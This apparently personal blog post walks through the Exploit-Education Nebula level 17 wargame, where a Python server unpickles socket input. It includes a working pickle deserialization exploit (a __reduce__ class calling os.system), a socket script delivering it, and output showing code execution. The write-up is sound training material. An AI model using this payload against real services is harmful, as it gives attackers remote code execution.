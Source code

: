 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 17"
date:   2019-08-23 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 17](https://exploit.education/nebula/level-17/)

## Challenge
There is a python script listening on port `10007` that contains a vulnerability.

To do this level, log in as the `level17` account with the password `level17`. Files for this level can be found in `/home/flag17`.

## Vulnerability
```python
def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")
```
This program uses python `pickle` module. [Pickle Module](https://docs.python.org/2/library/pickle.html)
>The pickle module implements a fundamental, but powerful algorithm for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and 
>“unpickling” is the inverse operation, whereby a byte stream is converted back into an object hierarchy.

We can see a warning in the same page.
>Warning:The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.  

So it is unsafe to `unpicke` untrusted data. We can see that in `server` function ,the program is `unpickiling` user provided data without any checks.  

You can read more about this vulnerability [here](https://blog.nelhage.com/2011/03/exploiting-pickle/).

So the vulnerability is that we can run our own code since python is `unpickiling` our data.
## Solution
We can write a python class that runs a script we control.
```python
import os
class Exploit(object):
  def __reduce__(self):
    return (os.system,(('/tmp/run.sh'),))
obj=Exploit()
line=pickle.dumps(obj)
```
The `__reduce__` function returns a `tuple` representing the command to be run. This `tuple` can be easily `pickled`.[Additional information on _reduce_.](https://docs.python.org/3/library/pickle.html#object.__reduce__)  
Essentially what this script does is, it returns the pickled format of the command we have to run. Here we are running the script `/tmp/run.sh`. The `pickled` result can used as the input for `flag17` program.
```bash
level17@nebula:~$ nano /tmp/run.sh
level17@nebula:~$ chmod 777 /tmp/run.sh
level17@nebula:~$ cat /tmp/run.sh
getflag>/tmp/out
```
I am running `geflag` and writing the output to a file named `/tmp/out`. I also wrote a complete python script to send the `pickled` data.
```python
#!/usr/bin/python

import pickle
import os
import socket
class Exploit(object):
  def __reduce__(self):
    return (os.system,(('/tmp/run.sh'),))
obj=Exploit()
line=pickle.dumps(obj)
HOST = "127.0.0.1"
PORT = 10007
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((HOST,PORT))
s.recv(1024)
s.sendall(line)
print line
```
Lets run the script.
```bash
level17@nebula:~$ python pickle2
Accepted connection from 127.0.0.1:58290
cposix
system
p0
(S'/tmp/run.sh'
p1
tp2
Rp3
.
```
Check the output in `/tmp/out`
```bash
level17@nebula:~$ cat /tmp/out
You have successfully executed getflag on a target account
```
### Solved!